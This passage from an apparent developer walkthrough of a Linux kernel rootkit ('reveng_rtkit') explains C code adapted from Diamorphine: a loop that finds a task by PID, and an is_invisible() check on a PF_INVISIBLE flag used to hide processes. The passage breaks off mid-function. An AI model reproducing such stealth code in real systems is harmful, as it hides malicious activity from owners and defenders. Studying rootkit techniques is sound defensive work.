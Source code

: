                     /* link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/sched/signal.h#L601
                     * for loop macro
                     * #define for_each_process(p) \
                     * for (p = &init_task ; (p = next_task(p)) != &init_task ; )
                     */
                      for_each_process(target_process)
                      {
                        if (target_process->pid == pid)
                        {
                          return target_process;
                        }
                      }
                    return NULL;
                    }
                    ```
                    This is basically a for loop macro. I got this expression from  [diamorphine](https://github.com/m0nad/Diamorphine/) project. Then searched it in [bootlin](https://elixir.bootlin.com/linux/v5.11/source/include/linux/sched/signal.h#L601).
                    
                2. Visit: [repo](https://github.com/reveng007/reveng_rtkit/blob/055b7dce57cf1317f13fb3bd141e21c3ec82c5dc/kernel_src/include/hook_syscall_helper.h#L118).
                We will now make a function to hide those directories responsible for corresponding `pid`. Got this portion from [heroin](https://web.archive.org/web/20140701183221/https://www.thc.org/papers/LKM_HACKING.html#A-b) and [diamorphine](https://github.com/m0nad/Diamorphine/) project.
                   ```c
                   /* Here, -"&gt;" : -">" and "&amp;" : "&" */

                   #define PF_INVISIBLE 0x10000000
                   
                   int is_invisible(pid_t pid)
                   {
                      struct task_struct *task;

                      if((task = find_task(pid)) == NULL)
                        return(0);

                      if(task-&gt;flags &amp; PF_INVISIBLE)
                        return(1);

                      return(0);
                   }
                   ```
                   I made some changes,
                   ```c
                   #define PF_INVISIBLE 0x10000000

                   static int is_invisible(pid_t pid)
                   {
                      struct task_struct *task = find_task(pid);

                      if (!pid)
                      {
                        return 0;
                      }
